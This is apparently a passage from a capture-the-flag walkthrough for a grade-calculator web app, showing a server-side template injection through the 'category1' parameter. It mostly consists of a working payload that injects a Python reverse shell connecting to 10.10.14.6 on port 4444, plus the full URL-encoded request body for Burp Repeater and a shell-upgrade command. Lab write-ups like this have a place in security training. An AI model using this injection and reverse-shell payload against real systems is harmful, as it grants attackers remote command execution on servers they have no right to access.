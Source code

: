 * POST the calculator % send it to repeater

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

`category1=Test%0A<%25%3d+REVERSE SHELL+%25>`

* Add the reverse shell payload

category1=Test%0A<%25%3d+`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`+%25>

* URL Encode the content of payload (CTRL+U)

```bash
category1=Test%0A<%25%3d+`python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.6",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("bash")'`+%25>&grade1=1&weight1=100&category2=Maths&grade2=2&weight2=0&category3=Physics&grade3=2&weight3=0&category4=PE&grade4=1&weight4=0&category5=Algebra&grade5=3&weight5=0
```

* Run it in repeater to obtain the reverse shell on given port

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

